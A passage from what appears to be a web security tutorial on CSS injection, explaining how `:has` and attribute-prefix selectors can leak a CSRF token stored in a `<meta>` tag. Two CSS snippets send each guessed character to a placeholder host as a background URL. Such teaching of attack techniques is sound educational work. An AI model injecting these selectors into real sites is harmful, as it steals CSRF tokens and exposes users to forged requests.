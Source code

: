![caniuse](pics/17-01.png)

With `:has`, we are basically invincible because we can specify which parent element changes the background. So, we can select however we want.

## Stealing meta

Apart from putting data in hidden inputs, some websites also put data in `<meta>` tags, for example, `<meta name="csrf-token" content="abc123">`. Meta tags are also invisible elements. How can we steal them?

First, as mentioned at the end of the previous paragraph, `has` is an absolute way to steal them. We can do it like this:

``` css
html:has(meta[name="csrf-token"][content^="a"]) {
  background: url(https://example.com?q=a);
}
```

But besides that, there are other ways to steal them.

Although `<meta>` tags are also invisible, unlike hidden inputs, we can make this element visible using CSS:

``` css
meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```
